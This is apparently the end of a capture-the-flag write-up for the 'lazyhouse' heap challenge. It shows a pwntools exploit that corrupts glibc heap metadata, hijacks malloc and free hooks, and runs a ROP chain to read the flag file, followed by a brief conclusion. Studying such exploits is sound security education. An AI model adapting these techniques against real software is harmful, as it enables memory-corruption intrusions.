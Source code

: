 ```python
update_house(1, '/home/lazyhouse/flag\0'.ljust(144,"B") + p64(0) + p64(0x21) + p64(second_chunk) + p64(third_chunk) + p64(0x20) + p64(0x70) + 'B' * 0x60 + p64(0) + p64(0x31) + p64(third_chunk) + p64(libc_leak) + p64(0) * 2 + p64(0x30) + p64(0x60) + 'B' * 0x40 + p64(0) + p64(0x4c1) + p64(libc_leak) + p64(fourth_chunk))
pivot_addr = libc_base + 0x43db4
pivot_addr = libc_base + 0x832f0
malloc_hook = libc_base + 0x1e4c30
free_hook = libc_base + 0x1e75a8
# __malloc_hook
fake = fit({
    0x0: 0x800,
    0x10: libc.symbols['environ'],
    0x20: libc.symbols['environ'],
    0x28: libc.symbols['environ']+8,
    0x38: libc.symbols['__malloc_hook'],
    0x40: libc.symbols['__malloc_hook']+8,
    0xc0: p32(0xffffffff),
    0xd8: libc.symbols['_IO_file_jumps']
    }, filler="\0")
fake = fake.ljust(0x100,'\0')
buy_house(2, 0x2f0, fake + p64(libc.symbols['__free_hook']), True)
buy_super_house(p64(libc.symbols['__uflow']).ljust(0x217,"A"))
sell_house(2)
p.recvuntil("Your choice: Index:")
p.recvuntil("Your choice: Index:")
stack = u64(p.recvn(8))-0x290
log.info("STACK: "+hex(stack))
p.send(p64(libc.symbols['gets']))
flagstr = heap_base+0x1ab0
rdi = libc.address+0x26542
rsi = libc.address+0x26f9e
rdx = libc.address+0x12bda6
rax = libc.address+0x47cf8
syscall = libc.address+0xcf6c5
xchg_eax_edi = libc.address+0x145585
rop = flat(rdi, flagstr, rsi, 0, rax, 2, syscall)
rop += flat(xchg_eax_edi, rsi, heap_base, rdx, 0x100, libc.symbols['read'])
rop += flat(rdi, 1, rsi, heap_base, rdx, 0x100, libc.symbols['write'])
buy_house(2, stack, rop+'\n', True)
p.interactive()
```

# Conclusion

This was a very fun challenge, and I ended up learning a lot about how both the unsorted bin and tcache both worked.  Thanks to Angelboy for, as usual, a great heap challenge!